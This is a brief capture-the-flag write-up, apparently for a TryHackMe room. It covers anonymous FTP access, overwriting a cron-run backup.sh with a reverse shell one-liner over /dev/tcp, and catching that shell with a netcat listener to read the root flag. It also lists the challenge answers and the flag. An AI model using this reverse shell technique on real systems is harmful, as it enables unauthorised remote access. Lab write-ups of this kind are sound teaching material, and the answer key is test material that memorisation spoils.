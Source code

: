 ***Name the directory on the FTP server that has data accessible by the "anonymous" user***  
Login FTP, list folder and file with `ls`. Just `public` is have capacity. Answer `public`  

***What script gets executed within this directory?***  
Enumerate `public` folder. Answer `backup.sh`  

***What movie did Santa have on his Christmas shopping list?***  
Read shopping-list in `public`. Answer `The Polar Express`  

***Output the contents of /root/flag.txt!***  
As instruction, The script run every minute, i create the new `backup.sh` with payload `sh -i >& /dev/tcp/IP/PORT 0>&1` and re-upload to `public`  
At my machine, i run `nc -nvlp PORT` and wait connection from victim. After minute, I get reverse shell and cat flag. Answer `THM{even_you_can_be_santa}`  
